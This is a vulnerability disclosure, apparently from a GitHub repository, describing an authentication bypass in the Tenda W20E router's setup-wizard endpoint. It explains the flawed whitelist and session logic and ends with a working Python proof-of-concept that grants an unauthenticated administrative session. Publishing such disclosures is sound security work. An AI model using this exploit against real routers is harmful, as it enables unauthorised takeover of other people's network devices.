

# Vulnerability Report: Authentication Bypass via Logic Flaw in Tenda W20E Router
An authentication bypass vulnerability has been identified in the web management interface of the **Tenda W20E** enterprise router. An unauthenticated attacker can trigger this vulnerability by accessing the `/goform/setQuickCfgWifiAndLogin` endpoint, which is intended for the initial setup wizard. By sending a crafted request to this endpoint, an attacker can manipulate the internal session state to gain full administrative access without providing valid credentials.

### Vulnerability Details
**Product Information** 

Product:Tenda W20E Enterprise Router

Affected Version: V15.11.0.6

Vulnerability Type: Improper Authentication / Logic Flaw (CWE-287 / CWE-425)


### Description:
The vulnerability exists due to a logic flaw in the global authentication handler `authSecurityHandler` and its associated whitelist check function `cgi_auth_check_url_pass`.

1. **Whitelist Access:** The function `cgi_auth_check_url_pass` contains a hardcoded whitelist that permits unauthenticated access to the `/goform/setQuickCfgWifiAndLogin` endpoint. This is designed to allow new users to configure the device before a password is set.
2. **Session Pollution:** When a request reaches the `formSetQuickCfgWifiAndLogin` function, the backend fails to verify if the device has already been initialized. The function proceeds to execute the following logic:
   - It sets the global session variable `loginUserInfo[i].logOK = 1`.
   - It binds the attacker's IP address to this authenticated slot via `strncpy((char *)loginUserInfo[i].ip, (const char *)wp->ipaddr, 0x1Fu);`.
3. **Privilege Escalation:** Once this "initialization" request is processed, the `authSecurityHandler` recognizes the attacker's IP as a valid, logged-in session. Consequently, all subsequent requests to sensitive administrative endpoints (e.g., `/goform/delPortMapping`, `/goform/reboot`) are permitted without further authentication.


### Poc


```python
import requests
import base64

host = "192.168.0.1"

def bypass_auth():
    payload = base64.b64encode(b"admin").decode()
    url = f"http://{host}/goform/setQuickCfgWifiAndLogin"
    data = {"sysUserPassword": payload}
    response = requests.post(url, data=data)
    if "index.asp" in response.text:
        print("[+] Auth Bypass Successful. Session established.")


bypass_auth()
```